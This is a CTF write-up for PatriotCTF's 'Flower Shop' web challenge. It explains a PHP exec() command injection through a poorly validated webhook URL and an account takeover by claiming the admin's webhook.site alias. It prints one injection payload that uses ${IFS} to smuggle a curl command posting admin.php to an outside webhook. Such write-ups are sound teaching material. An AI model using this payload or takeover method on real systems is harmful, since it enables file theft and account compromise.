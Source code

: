 ```yaml
---
layout: post
current: post
cover:  assets/patriot/flowershop/cover.png
navigation: True
title: "Flower Shop"
date: 2023-09-10 22:00:00
tags: [PatriotCTF, web]
class: post-template
subclass: 'post'
author: nisala
---
```


Bad news: pay-to-win made it to CTFs. Good news: we paid first.

In this challenge, we're presented with a basic user management system:

![Sign up, login, and password reset screen](assets/patriot/flowershop/image1.png)

Alright, login, signup, and password reset. Pretty standard stuff. The one difference is in the password reset system. Instead of providing an email, you have to provide a webhook URL.

## The Intended Solution

One look at the password reset system and it's immediately obvious what the vulnerability is.

```php
public function resetPassword() {
    $this->wh = $this->checkUser($this->uid);
    if (!$this->wh) {
        header("location: ../login.php?error=InvalidUser");
        exit();
    }

    $this->tmpPass = $this->tmpPwd($this->uid);

    exec("php ../scripts/send_pass.php " . $this->tmpPass . " " . $this->wh . " > /dev/null 2>&1 &");

    return $this->tmpPass;
}
```

A call to `exec`? It's practically asking to be exploited -- and you very easily can. The webhook is validated, but the valdation is done very insecurely, using PHP filters:

```php
$this->wh = filter_var($wh, FILTER_SANITIZE_URL);
...
if (!filter_var($this->wh, FILTER_VALIDATE_URL)) {
    header("location: ../login.php?error=NotValidWebhook");
    exit();
}
```

`FILTER_SANITIZE_URL` is the easiest check to get around -- it just removes some illegal characters. `FILTER_VALIDATE_URL` hypothetically validates the URL against RFC2396, but there are lots of payloads that get around it. The flag is stored in `../admin.php`, so this is about how far we got on the payload before finding our unintentional solution:

```
0://google.com;curl${IFS}-d${IFS}@../../admin.php${IFS}https://webhook.site/nisala;
```

This bypasses the URL filter, and allows us to run a command with the insecure use of `exec`. We were still ironing out exactly how to use `${IFS}` to get spaces when we found an unintentional solution.

## The Unintentional Solution

So the flag is stored at `admin.php`, right? What's stopping us from just going there?

```php
if ($_SESSION['username'] !== "admin" ) {
    header("Location: login.php?error=notadmin");
    exit();
}
```

Our username needs to be `admin`, huh? Well, we can't register as `admin`, so it's clearly getting pre-created. Is that in the code?

```php
private function initDB() {
    $stmt = $this->connect()->prepare('INSERT INTO users (username, password, webhook)
    VALUES ("admin", :password, :webhook)');
    $stmt->bindValue(':password', $hashedPwd);
    $stmt->bindValue(':webhook', "https://webhook.site/fake");
    $stmt->execute();
}
```

So it seems that `admin`'s password resets are being sent to `webhook.site/fake`. If we can see those, we can just log in as admin and get the flag. Now, this may seem far-fetched, but... can we control that URL?

![webhook.site page that shows premium tier has custom aliases](assets/patriot/flowershop/image2.png)

Oh my god. So, does that mean...

![webhook.site page showing control of webhook.site/fake](assets/patriot/flowershop/image3.png)

Yes. Yes it does. Let's send in a password reset for admin.

![webhook.site/fake showing the password](assets/patriot/flowershop/image4.png)

And now we just sign in and claim our prize.

![flag, logged in as admin on the flower shop website](assets/patriot/flowershop/image5.png)